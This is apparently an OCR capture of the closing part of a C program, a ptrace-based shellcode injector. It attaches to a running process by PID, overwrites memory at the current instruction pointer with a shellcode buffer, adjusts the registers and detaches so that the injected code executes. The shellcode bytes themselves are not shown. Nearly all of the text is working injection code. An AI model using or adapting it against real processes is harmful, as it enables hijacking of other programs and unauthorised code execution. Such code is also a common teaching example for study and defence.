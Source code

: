 ```c
if ((ptrace(PTRACE_POKETEXT, pid, d, *s)) < 0)
{
perror("ptrace(POKETEXT):");
return -1;
}
}
return 0;
}

int main(int argc, char *argv[])
{
pid_t target;
struct user_regs_struct regs;
int syscall;
long dst;
if (argc != 2)
{
fprintf(stderr, "Usage:\n\t%s pid\n", argv[0]);
exit(1);
}

target = atoi(argv[1]);
printf("+ Tracing process %d\n", target);

if ((ptrace(PTRACE_ATTACH, target, NULL, NULL)) < 0)
{
perror("ptrace(ATTACH):");
exit(1);
}
printf("+ Waiting for process...\n");
wait(NULL);
printf("+ Getting Registers\n");

if ((ptrace(PTRACE_GETREGS, target, NULL, &regs)) < 0)
{
perror("ptrace(GETREGS):");
exit(1);
}

/* Inject code into current RPI position */

printf("+ Injecting shell code at %p\n", (void *)regs.rip);
inject_data(target, shellcode, (void *)regs.rip, SHELLCODE_SIZE);
regs.rip += 2;
printf("+ Setting instruction pointer to %p\n", (void *)regs.rip);

if ((ptrace(PTRACE_SETREGS, target, NULL, &regs)) < 0)
{
perror("ptrace(GETREGS):");
exit(1);
}
printf("+ Run it!\n");

if ((ptrace(PTRACE_DETACH, target, NULL, NULL)) < 0)
{
perror("ptrace(DETACH):");
exit(1);
}
return 0;
}
```
